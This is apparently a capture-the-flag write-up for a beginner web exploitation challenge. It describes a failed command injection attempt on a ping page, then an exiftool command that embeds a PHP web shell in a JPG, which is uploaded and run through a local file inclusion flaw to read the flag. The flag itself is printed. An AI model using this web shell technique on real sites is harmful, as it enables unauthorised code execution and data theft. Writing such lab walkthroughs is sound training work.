 ```yaml
---
icon: globe
description: 'Author: Fedra'
hidden: true
---
```


# 101 - Web Exploitation

FLAG

```
TSA{Web_Hacking_101_c7319b0bd96f9d01981bbf52ebb7027f}
```

## Analysis

Given a website that have 3 pages which are Home, Ping and Upload File. The thing that's immediately got into me are the Ping and Upload File page. Here's a picture for each of those two pages:

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption><p>Ping Page</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption><p>Upload File Page</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption><p>Testing LFI</p></figcaption></figure>

The thing that i immediately check is basic command injection for the ping and path traversal vulnerability. For the first one which is basic command injection, it didn't work even if i used the URL encode. And after i check the later one, it's actually working because of the website using a parameter include to the page so it's vulnerability to Local File Inclusion (LFI). Also this easier because the path is being provided for our uploaded file but the file that could be upload are restricted within some rules.

## Solution

Create a JPG file that contains our script using `exiftool`, the command are here:

```sh
exiftool --comment='<?php system($_GET[CMD]);?>' <file name> -o <output of file name>
```

After that upload the JPG file that contains our script, copy the path that are shown in the website and modify the URL corresponding with the given URL to done the Local File Inclusion. Also don't forget to use command injection to execute the command that we already instilled on the JPG file so that we could  get the information of the system. Here's the instance of that:

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption><p>Got some information from ls /</p></figcaption></figure>

And after some searching we found out the flag that we were looking for, just cat the flag and voila we got the flag.

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption><p>cat the flag</p></figcaption></figure>

